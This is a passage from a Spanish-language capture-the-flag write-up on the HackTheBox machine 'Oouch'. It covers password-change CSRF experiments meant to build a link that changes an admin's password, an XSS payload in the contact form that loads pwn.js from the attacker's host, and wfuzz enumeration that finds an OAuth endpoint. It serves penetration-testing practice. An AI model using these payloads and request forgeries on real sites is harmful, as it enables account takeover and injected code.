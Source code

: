 ```<input id="csrf_token" name="csrf_token" type="hidden" value="IjExZWQ2YjFlN2FlNDhjYzg5MjI1...">```
![oouch6](https://user-images.githubusercontent.com/96772264/211310657-3c29be7e-6898-488a-b143-145b8dbabc91.PNG)

Como hay una seccion de contacto y una de cambiar la contraseña, podemos intentar cambiarsela a un posible admin.
Si tramitamos la peticion de cambiar contraseña por bupsuite:

```
csrf_token=ImQ5ND...&opassword=cucuxii&npassword=test&cpassword=test&submit=Change+Password
# Quitamos el campo opassword -> csrf_token=ImQ5ND...&npassword=test&cpassword=test&submit=Change+Password
# Error "Este campo es obligatorio"

# Cambiar el metodo POST a GET (para hacer un enlace que mandarle al admin y cambiarle SU contraseña)
GET /password_change?csrf_token=ImQ5N&opassword=cucuxii&npassword=test&cpassword=test&submit=Change+Password
# NO funciona porque no me deja entrar con la nueva contraseña "test" sino la vieja "cucuxii"
```

Intento de XSS en el campo /contact:
```
Contact -> "<script src="http://10.10.14.16/pwn.js"></script>"
# Intento de hackeo detectado.
# "Querido hacker, como dijimos este sitio sigue los estandares de seguridad mas altos y te hemos bloqueado la IP durante un minuto, jodete"

Contact -> "http://10.10.14.16/pwn.js"
# Peticion /GET
```

Si hacemos fuzzing con el diccionario de siempre no tendremos resultados, en cambio con el de common-routes si
```console
└─$ wfuzz -t 200 --hc=404,400,502 -w /usr/share/seclists/Discovery/Web-Content/common.txt http://10.10.10.177:5000/FUZZ
# 000002867:   302        3 L      24 W       247 Ch      "oauth"
```
Este endpoint es de Oauth.
```
Endopoint de Oauth

Esta funcionalidad está todavia en desarollo... pero si has encontrado esta ruta esque eres desarollador.
Para conectar tu cuenta a nuestro servidor de autorización:
	->  http://consumer.oouch.htb:5000/oauth/connect

Una vez conectada deberias poder ysar el servidor de autorizacion para loguearte con:
	-> http://consumer.oouch.htb:5000/oauth/login
```
---------------------------------
